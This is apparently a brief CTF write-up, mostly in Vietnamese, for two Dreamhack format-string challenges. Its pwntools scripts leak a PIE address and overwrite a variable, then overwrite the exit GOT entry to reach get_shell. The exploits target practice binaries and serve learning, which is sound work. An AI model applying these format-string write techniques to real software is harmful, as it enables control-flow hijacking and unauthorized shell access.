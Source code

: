 -------------------


13 . format string bug
---------

bài này chỉ lần leak PIE và thay đổi giá trị của địa chỉ 

![image](https://hackmd.io/_uploads/B1XJbL_m1e.png)

script 

```
#!/usr/bin/python3
from pwn import *
context.binary = exe = ELF('./fsb_overwrite')
p=process(exe.path)
p = remote('host3.dreamhack.games', 9913)
#leak PIE
payload = b'%22$p'
p.send(payload)
leak = int(p.recvline()[:-1],16)
exe.address = leak -15760
print("exe address: ",hex(exe.address))
change_me = exe.address + 16412
print("change_me: ",hex(change_me))
a = 1337
payload = f'%{a}c%9$hn'.encode()
payload = payload.ljust(0x18,b'a')
payload += p64(change_me)
input()
p.send(payload)
p.interactive()
```

---------

14. basic_exploit_002
------

chỉ là 1 bài ghi đè exit bằng get_shell

script 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./a',checksec=False)
p = process(exe.path)
p = remote('host3.dreamhack.games', 9079)
system =  exe.sym.get_shell
print("system: ",hex(system))
sys = system & 0xffff
exit_ = exe.got.exit
print("win: ",hex(sys))
print("exit: ",hex(exit_))

payload = p32(exit_)
payload += f'%{sys-4}c%1$hn'.encode()
input()
p.send(payload)
p.interactive()
```
